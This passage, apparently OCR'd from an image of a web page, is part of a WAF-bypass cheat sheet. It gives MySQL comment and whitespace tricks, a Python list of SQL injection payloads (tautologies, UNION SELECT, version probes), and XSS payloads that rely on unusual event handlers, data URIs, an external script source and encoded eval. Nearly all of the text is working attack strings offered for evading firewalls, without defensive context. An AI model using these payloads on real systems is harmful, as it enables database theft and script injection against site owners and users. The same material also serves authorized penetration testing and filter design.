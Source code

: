 ```sql
-- MySQL comments
SELECT/*comment*/* FROM users
SELECT/*!50000 * */ FROM users

-- Various comment styles
SELECT--/*comment*/* FROM users

```

**4. Whitespace Alternatives:**

```sql
-- Using comments as whitespace
SELECT/**/* FROM/**/users

-- Using other whitespace characters
SELECT%09*%09FROM%09users  -- TAB
SELECT%0A*%0AFROM%0Ausers  -- Newline

```

**5. SQLi WAF Bypass Examples:**

```python
# Advanced SQLi WAF bypass payloads
waf_bypass_payloads = [
    "1' AnD '1' LiKe '1",
    "1' aND '1' lIkE '1",
    "1'/**/OR/**/1=1",
    "1'/*!50000OR*/1=1",
    "1' OR 1#1=1",
    "1' OR 'abc'='abc",
    "1' OR substr(version(),1,1)='5",
    "1' /*!00000OR*/ 1=1",
    "1' OR ASCII(SUBSTR(version(),1,1))>0",
    "-1' UNION SELECT 1,2,3--",
    "-1' UNION ALL SELECT 1,2,3--",
    "1' AND (SELECT 1)=1--",
    "1' AND (SELECT 'x')='x'--"
]

```

**6. XSS WAF Bypass Examples:**

```jsx
// Using lesser-known event handlers
<details open ontoggle=alert(1)>
<video><source onerror=alert(1)>

// Using data URIs
<object data="data:text/html,<script>alert(1)</script>">

// Using alternative script sources
<script src="//⑮.₨">

// Character encoding tricks
<script>alert&lpar;1&rpar;</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>

// Using SVG
<svg><script>alert(1)</script></svg>
<svg><animate onbegin=alert(1)>

```
